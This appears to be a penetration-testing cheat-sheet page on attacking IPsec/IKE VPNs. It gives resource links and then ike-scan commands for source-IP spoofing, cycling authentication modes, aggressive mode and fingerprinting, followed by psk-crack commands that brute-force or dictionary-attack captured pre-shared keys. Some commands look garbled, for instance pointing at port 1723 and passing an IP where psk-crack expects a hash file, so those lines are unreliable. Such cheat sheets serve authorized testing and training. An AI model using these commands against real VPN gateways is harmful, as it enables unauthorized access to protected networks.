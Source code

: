 # 🟨 VPNs

## <mark style="color:red;">Resources</mark>

{% embed url="https://github.com/0x90/vpn-arsenal" %}

{% embed url="https://opensourceforu.com/2012/01/ipsec-vpn-penetration-testing-backtrack-tools" %}

{% embed url="http://devloop.users.sourceforge.net/index.php?article108%2Fsolution-du-ctf-hacklab-vulnvpn=" %}

{% embed url="https://resources.infosecinstitute.com/vulnvpn#gref" %}

{% embed url="https://0xrick.github.io/hack-the-box/conceal#ike-scan-Setting-up-The-Connection" %}

## <mark style="color:red;">Techniques</mark> <a href="#exploitation-techniques" id="exploitation-techniques"></a>

### <mark style="color:orange;">IKEv2 Authenthication IP spoofing</mark>

```
ike-scan --sport=1723 --dport=1723 --sourceip=IP_To_Spoof --ikev2 <IP>
```

#### Trying all authentication modes

```
ike-scan --dport=1723 --auth=1 <IP>
ike-scan --dport=1723 --auth=3 <IP>
ike-scan --dport=1723 --auth=64221 <IP>
```

#### IP spoofing using ike-scan

```
ike-scan --dport=1723 --sourceip=IP_To_Spoof  --auth=1 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof  --auth=3 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof  --auth=64221 <IP>
```

#### IP spoofing and agressive mode

```
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=1 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=3 <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=64221 <IP>
```

#### Show fingerprint

```
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=1 --showbackoff <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=3 --showbackoff <IP>
ike-scan --dport=1723 --sourceip=IP_To_Spoof -A --auth=64221 --showbackoff <IP>
```

#### Crack the key using psk-crack

```
psk-crack hash-file.txt
psk-crack -b 5 IP
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" <IP>
psk-crack -d wordlist.txt <IP>
```
